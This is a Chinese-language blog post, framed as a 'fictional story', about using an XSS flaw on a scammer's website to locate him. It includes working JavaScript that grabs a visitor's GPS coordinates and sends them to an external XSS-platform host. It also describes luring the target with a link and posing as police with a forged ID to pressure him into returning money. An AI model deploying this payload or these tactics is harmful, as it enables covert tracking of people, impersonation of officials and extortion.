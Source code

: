 ```yaml
---
layout:     post
title:      看我如何帮朋友追回骗款
subtitle:   XSS获取定位技术
date:       2019-09-22
author:     看不尽的尘埃
header-img: img/post-bg-ios9-web.jpg
catalog: 	 true
tags:
    - 虚构故事
---
```

## 前言
最近有个高中同学说他被骗了几百块钱，想要追回钱财，但是现在骗子已经把他删除好友了，然后他来问我有啥办法，他当时把骗子的网站也发我了。于是我就想从Web入手试试，可能是我太渣了吧，只找到了一个XSS漏洞...一个XSS怎么来能追回这笔赃款呢？我想到了通过XSS获取骗子的地理位置，我通过一个小号加上了他，忽悠他说平台有问题，随便发他链接。最终我成功打到了听他的地理位置信息和IP地址！最后炸他说我是W警，顺便靠一手PS证件，一会儿的功夫从他聊天语气上看出来他慌了，2分钟左右钱就到我朋友账号上了。
今天就来说一下，通过XSS如何获取地理位置信息和IP地址，其实这个东西很容易，就是可能比较鸡肋...

## 过程
我们首先需要去XSS平台注册一个账号，注册完成后就新建一个模块或者有的XSS平台自带定位功能模块。
![图片](../../../../img/xss_gps_1.png)

下面就是JS代码：
```
function getLocation() 
  {
  if (navigator.geolocation)
    {
    navigator.geolocation.getCurrentPosition(showPosition);
    }
  else{x.innerHTML="Geolocation is not supported by this browser.";}
  }
function showPosition(position)
  {
    (new Image()).src='https://xsshs.cn/xss.php?do=api&id={projectId}&weidu='+position.coords.latitude+'&jingdu='+position.coords.longitude; 
}
       
getLocation();
```

我就拿我的手机比作骗子的手机来演示一下这个过程。
鸡肋的地方有2个，第一个就是需要允许浏览器获取地理位置，默认我的手机是开着的；第二个就是打开了网页之后会弹窗提示，该网站需要获取你的地理位置。
因为骗子的网站存在XSS漏洞，所以骗子一般都会放下戒心，他肯定会想这是我自己的网站没事的。
![图片](../../../../img/xss_gps_2.png)

![图片](../../../../img/xss_gps_3.png)
哈哈哈，只要他允许了，他的地理位置信息和IP地址马上就会发送到XSS平台上面！

![图片](../../../../img/xss_gps_4.png)

我们可以通过以下网站，填写经纬度进行查询地理位置，一般来说定位是很准的，我本地测试，偏差就50m。
[http://www.gpsspg.com/maps.htm](http://www.gpsspg.com/maps.htm)

## 后续
故事纯属虚构，如有雷同，纯属巧合，哈哈哈！

